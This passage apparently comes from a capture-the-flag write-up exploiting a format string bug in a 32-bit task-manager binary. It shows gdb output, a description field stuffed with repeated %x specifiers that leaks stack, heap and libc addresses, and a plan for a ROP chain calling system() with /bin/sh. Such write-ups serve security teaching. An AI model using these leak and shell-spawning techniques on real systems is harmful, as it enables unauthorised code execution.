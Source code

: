 We can see that at instruction `8049483`, the program calls printf without loading anything to the stack. This indicates that printf might be called without a format string, thus causing a format string vulnerability. Comparing it to the output of the binary, we can see that it corresponds to displaying of task description.

4.  Running the binary in gdb, as `gdb task`, we can get the base address of libc, as well as leak out the addresses on the stack through the FMS vulnerability. We can then use those addresses to leak a pointer to our own description string on the heap as well as a return-address pointer into libc.

```bash
gdb➤  info sharedlibrary
From        To          Syms Read   Shared Object Library
0xf7fd4100  0xf7ff0a13  Yes (*)     /lib/ld-linux.so.2
0xf7de71d0  0xf7f3fe0a  Yes (*)     /lib/i386-linux-gnu/libc.so.6
(*): Shared library is missing debugging information.
```

```bash
1. Create task
2. Remove task
3. Display tasks
4. Exit
Enter choice: 1
Enter name: leak
Enter date (dd/mm/yyyy): 1234
Enter length of description: 900
Enter description: %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x


1. Create task
2. Remove task
3. Display tasks
4. Exit
Enter choice: 3
Task information:


Name: leak
Date: 1234
Length: 900
Description: 
384.804a0a9.8049417.f7fb3000.804c000.ffffce88.804952c.804d1a0.f7fb3000.ffffcec8.80494a1.804d1f0.1.0.804d1a0.804a050.804c000.ffffcec8.8049797.804d1a0.ffffceac.50.0.f7fb33fc.80000.7.3.a.804d1a0.804d550.18634600.ffffcee0.0.0.f7de8fb9.f7fb3000.f7fb3000.0.f7de8fb9

```
We see that the address of the description is leaked out at the 15th offset, that is `804d1a0`, and the libc call is leaked out at the 35th offset, that is `f7de8fb9`.

We can use the leaked addresses to construct an ROP chain to gain a shell. For that, we need the address of `system()` in libc, address of a `/bin/sh` string, and a dummy return address for the ROP call. If we can gain EIP control so that it points to `system()` while the stack pointer points to the ROP chain, we can pop a shell.
